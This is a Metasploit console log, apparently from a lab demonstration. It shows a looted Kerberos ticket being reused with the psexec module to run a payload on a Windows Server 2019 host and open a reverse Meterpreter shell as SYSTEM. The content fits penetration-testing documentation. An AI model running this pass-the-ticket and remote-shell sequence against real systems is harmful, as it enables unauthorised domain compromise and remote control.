 ```
107  192.168.232.110  Administrator@NEWLAB.LOCAL  cifs/VICTIM.newlab.local@NEWLAB.LOCAL        AES256   2025-01-23 19:29:59 +0100  active  /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_335229.bin

msf exploit(windows/smb/psexec) > run lhost=192.168.232.3 rhost=192.168.232.111 username=Administrator smb::auth=kerberos smb::rhostname=VICTIM.newlab.local domaincontrollerrhost=192.168.232.110 domain=newlab.local
[*] Started reverse TCP handler on 192.168.232.3:4444
[*] 192.168.232.111:445 - Connecting to the server...
[*] 192.168.232.111:445 - Authenticating to 192.168.232.111:445|newlab.local as user 'Administrator'...
[*] 192.168.232.111:445 - Using cached credential for cifs/VICTIM.newlab.local@NEWLAB.LOCAL Administrator@NEWLAB.LOCAL
[*] 192.168.232.111:445 - Selecting PowerShell target
[*] 192.168.232.111:445 - Executing the payload...
[+] 192.168.232.111:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 192.168.232.111
[*] Meterpreter session 1 opened (192.168.232.3:4444 -> 192.168.232.111:42528) at 2025-01-23 19:35:07 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : VICTIM
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : NEWLAB
Logged On Users : 9
Meterpreter     : x86/windows
```

